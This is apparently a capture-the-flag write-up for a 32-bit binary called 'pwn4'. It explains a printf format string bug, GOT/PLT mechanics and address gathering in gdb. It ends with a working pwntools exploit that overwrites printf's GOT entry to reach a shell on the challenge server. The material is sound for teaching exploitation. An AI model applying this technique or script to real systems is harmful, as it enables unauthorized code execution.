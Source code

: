 ```yaml
---
layout: post
author: EverTokki
---
```

### Program Source + Explanation
```c
int _() {
  return system("/bin/bash");
}
 
int __cdecl main(int argc, const char **argv, const char **envp) {
 
  char s; // [esp+1Ch] [ebp-84h]
  unsigned int v5; // [esp+9Ch] [ebp-4h]
 
  v5 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  puts("Do you swear to use this shell with responsility by the old gods and the new?\n");
  gets(&s);
  printf(&s);
  printf("\ni don't belive you!\n%s\n", &s);
 
  return 0;
}
```

There is a function specifically made to call `system("/bin/sh")` (usually called the "win" function) - this makes things easier, because we don't have to think about passing arguments and grabbing `"/bin/sh"` from memory, etc. We note that the main function receives through `gets()` and then proceeds to use `printf()` twice.

```sh
EverTokki@shell:~/TEMP$ ./pwn4
Do you swear to use this shell with responsility by the old gods and the new?

AAAA.%x.%x.%x.%x.%x.%x.%x.
AAAA.0.2.0.fff8e75e.1.c2.41414141.
i don't belive you!
AAAA.%x.%x.%x.%x.%x.%x.%x.
```
As you may know, `printf(&s)` is prone to a [format string bug](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf). You can use this bug to either leak elements off the stack(`%d`, `%x`, `%p`, `%s`), or to write to addresses(`%n`). We can see that the seventh element in the leak is 0x41414141, also known as "AAAA". It's printing out the stack elements - the first 6 elements, if I recall correctly, are register values. 
What does this mean? - We can store addresses in the stack so that our format string bug will write to those addresses.

---

### Simple GOT overwrite using format string bug 
I recommend reading more about GOT and PLT if this post alone doesn't make sense.
- [GOT and PLT for pwning](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
- [Introduction to format string exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [Format String Exploit (OverWrite GOT)](https://nuc13us.wordpress.com/2015/09/04/format-string-exploit-overwrite-got/)
- [Bypassing ASLR via Format String Bug](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Basically, here's a rundown of PLT and GOT:
- When you call a function, it jumps to PLT. 
- PLT contains a jump to the GOT. 
- GOT is a table of jumps.
- After you jump from GOT, you can finally get the "real" address of the function (which gets affected by ASLR).

GOT is empty when you first look at the binary file but once you run your program and your library is loaded, the addresses will be dynamically linked to the procedure so that the jump from GOT will land at the function at LIBC.

So, we want to: 
- Input a string into `gets()` that utilizes the format string bug.
- Once `printf(&s)` is called, this will overwrite the GOT of `printf()`. We want to overwrite this with the address of `win()`.
- When `printf()` is called again, it will call `win()` instead.

Some tips in general:
- It's easier (to understand your own payload + calculate offsets) if you put all the necessary addresses that you want to overwrite at, at the very beginning of your payload.
- If you have a negative offset that you have to write, (e.g. you want to write 0x0804 but you already have outputted 0x8230 characters) you can use 0x10804 instead, with `%hn` in order to only write the last two bytes.
- PLT is read-only, hence we overwrite GOT instead.
 
---

### Gathering addresses

```sh
EverTokki@shell:~/TEMP$ gdb -q pwn4
Reading symbols from pwn4...(no debugging symbols found)...done.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x8048400 <system@plt>
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0x80483c0 <printf@plt>
gdb-peda$ x/xi 0x80483c0
   0x80483c0 <printf@plt>:	jmp    DWORD PTR ds:0x80498fc
```
- system@PLT: `0x8048400`
- printf@GOT: `0x80498fc`

---

### Exploit
```python
#!/usr/bin/env python
from pwn import * 
 
r = remote("104.154.106.182", 5678)
#r = process("./pwn4")
 
# buffer is 7th argument
 
printf_got1 = 0x080498fc
printf_got2 = 0x080498fe
 
system = 0x804853d
 
payload = ""
payload += p32(printf_got1)
payload += p32(printf_got2)
 
# 8 bytes written
 
# printf -> win
# 0x853d(34109)
payload += "%34101c%7$hn"
 
# 0x10804(67588)
payload += "%33479c%8$hn"
 
print r.recvuntil("by the old gods and the new?\n")
 
r.send(payload)
r.interactive()
```
